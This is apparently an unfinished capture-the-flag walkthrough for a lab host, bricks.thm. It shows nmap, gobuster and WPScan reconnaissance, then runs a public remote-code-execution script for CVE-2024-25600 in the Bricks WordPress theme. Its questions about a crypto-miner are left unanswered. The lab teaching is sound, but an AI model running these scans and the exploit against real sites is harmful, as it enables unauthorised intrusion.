 Note: Add 10.10.176.9 bricks.thm to your /etc/hosts file.
Open the `/etc/hosts` file with root privileges using a text editor:
```BASH
sudo nano /etc/hosts
```
Add the following line:
```BASH
10.10.176.9 bricks.thm
```

First, run an Nmap scan to identify open ports and determine which services are running:
```BASH
nmap -sV 10.10.176.9
```
![image](https://github.com/user-attachments/assets/1ab3004c-0fcf-4fe9-a42a-6dba08e34570)

The Nmap scan reveals that the web application is served over HTTPS on port 443 via Apache.

![image](https://github.com/user-attachments/assets/d2eaecc1-3261-4476-84c0-396c2399c79d)

From the Gobuster scan, it appears that the website is running WordPress:
```BASH
gobuster dir -u "https://bricks.thm/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 10 -x .txt,.php -k
```
![image](https://github.com/user-attachments/assets/5f916e06-d546-4715-8606-69b703d0a1c7)

<span style="line-height:0.5;">&nbsp;</span>

### What is the content of the hidden .txt file in the web folder?
Use [WPscan](https://wpscan.com/) to enumerate the WordPress instance:
```BASH
wpscan --url https://bricks.thm --disable-tls-checks --enumerate u,vp,vt
```
- url - target URL
- disable-tls-checks - skip the expired cert problem (same as -k)
- u - enumerate usernames
- vp - vulnerable plugins
- vt - vulnerable themes

![image](https://github.com/user-attachments/assets/6e22649a-d7c3-4caa-9909-8f09a6f0c2d0)

WPScan shows that this version of the Bricks WordPress theme is vulnerable to [CVE-2024-25600](https://nvd.nist.gov/vuln/detail/CVE-2024-25600). Download the [Remote Code Execution (RCE) script](https://github.com/Chocapikk/CVE-2024-25600) for CVE-2024-25600.

Run the script:
```BASH
python3 CVE-2024-25600.py -u https://bricks.thm
```

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the suspicious process?

<span style="line-height:0.5;">&nbsp;</span>

### What is the service name affiliated with the suspicious process?

<span style="line-height:0.5;">&nbsp;</span>

### What is the log file name of the miner instance?

<span style="line-height:0.5;">&nbsp;</span>

### What is the wallet address of the miner instance?

<span style="line-height:0.5;">&nbsp;</span>

### The wallet address used has been involved in transactions between wallets belonging to which threat group?
